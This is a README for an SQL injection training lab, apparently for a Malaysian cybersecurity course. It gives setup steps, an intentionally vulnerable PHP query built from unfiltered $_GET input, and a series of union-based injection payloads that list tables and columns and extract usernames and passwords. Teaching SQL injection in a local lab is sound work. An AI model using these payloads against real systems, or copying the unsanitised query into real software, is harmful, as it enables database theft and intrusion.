 # SQL Injection Training Lab
 
This is a simple SQL Injection Lab. This installation requires small usage of storage and no special tools installation. You just need an Apache and PHP installed in your machine, then you can run this lab to learn performing SQL Injection.

SQL Injection (a.k.a sqli) is one of the most dangerous and popular cyber attack where it start with leaking data (SQL database) to take control of the server, change or delete the data or create a fake data.

This SQLi technique only works on SQL Database like MySQL (includes MariaDB), Oracle, Microsoft SQL Server and other SQL Databases. Even the noSQL Database has risen in popularity and trust, but yet, SQL Database is still in world wide industry which make SQLi attack is still relevence untill today.

Learning SQLi is easy and important especially if you work as programmer or developer, you will need this knowledge to see if your developed systems are secured or not.

# How to Install?
The installation of this lab is simple. You need an Apache Server and PHP installed! If you new to this, follow this thorough steps:

## For Windows:
1. Install XAMPP (PHP 7.4 minimum)
2. Start your XAMPP Control Panel and click start on Apache & MySQL
3. Go to "http://localhost/phpmyadmin"
4. Click on "New" on top left menu
5. Insert database name "sqli_lab"
6. Download this Github Repos and extract in "C:/xampp/htdocs"
7. Go to "http://localhost/SQL-Injection-Training-Lab"
8. Click on "Submit", then you are good to go

## For Linux
1. Install Apache `apt install apache2`
2. Install MySQL (search Google for the step depend on your linux version)
3. Install PHP `apt install php`
4. Install PHPMyAdmin (optional) `apt install phpmyadmin`
5. Start Apache & MySQL `service apache2 start` & `service mysql start`
6. Login to MySQL `sudo mysql -u root`
7. Create a new database named sqli_lab `CREATE DATABASE sqli_lab;`
8. Create database user (optional)
```
CREATE USER 'sqli'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'sqli'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
```
(SQL Command might differs depend on your MySQL version)
9. Go to "http://localhost/SQL-Injection-Training-Lab"
10. Insert your created database user "sqli" with password "password"
11. Click on "Submit", then you are good to go

##  Notes
If you are using Kali Linux, you can start with step 6 on Linux steps.

# Basic SQL Injection
SQLi happens when user input is not filtered/sanitize and used directly in the SQL Query. Example (in PHP):
```
$id = $_GET["id"];

$sql = "SELECT * FROM users WHERE id = '$id'";
$query = mysqli_query ...
```
The variable `$id` stored non-filtered/sanitize values take from `$_GET`. This means that the input `id` can be used to break the SQL Query inside PHP code.

## What is Payload?
Payload means the input used to manipulate the SQL Query. Most common used "payload" to check wheter the URL or site is open to SQLi or not is using single quote `'` or double quote `"` after the `id` parameters. Example:

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1

Hackers will put `'` or `"` like this:

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1'

Or

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1"


The use of `'` or `"` is to end a comparison statement in the SQL Query. Example:
```
//without quote(s)
...
$sql = "SELECT * FROM users WHERE id = '1'";

//with quote
...
$sql = "SELECT * FROM users WHERE id = '1''" 
```
The above code shows that there will be an addtional `'` character after the input which makes the SQL Query broke. This means the quote `'` is working for current attack because the SQL Query uses the same single quote as our payload.

This payload is not stop on the quotes, it can be elaborate untill we can insert a complete SQL Query in the input. Here's few example how the payload is elaborated:
```
...index.php?id=1'

//commenting the other SQL after the input
...index.php?id=1'--+

...index.php?id=1'+order+by1--+
...index.php?id=1'+union+all+select+1,2,3,4,5--+
...index.php?id=-1'+union+all+select+1,2,3,4,5--+

//List all table in current database
...index.php?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+

//List all column in specific table
...index.php?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='tbl_users'--+

//List all data in specific table
...index.php?id=-1'+union+all+select+1,group_concat(username),group_concat(password),4,5+from+tbl_users--+
```
These above is the basic payload we can use to perform a SQLi attack. There are more payload can be created depend on how strong is you knowledge on SQL Command.

# How to Learn from this repos?
This repos are created for our MyOPECS (Malaysia Open Cyber Security) Training. If you are a Malaysian and can speak Malay, then you can watch my videos on YouTube or follow our weekly hacking training every Thurday night Live on TikTok.

If you are not fit in the criteria above, then you can keep reading the README.md in every folder from Level A-N. (will be updated from time to time)